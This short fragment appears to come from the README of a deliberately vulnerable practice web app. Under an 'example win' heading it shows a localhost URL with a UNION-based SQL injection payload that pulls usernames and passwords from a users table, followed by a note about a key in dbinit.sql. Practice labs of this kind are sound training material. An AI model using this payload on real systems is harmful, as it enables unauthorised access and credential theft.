 ## example win
```
http://localhost/product?id=12%20union%20all%20select%20Username,%20Password%20from%20users
```

_Note:
the key for this is set in the dbinit.sql file. Please update the key to suite
your needs._
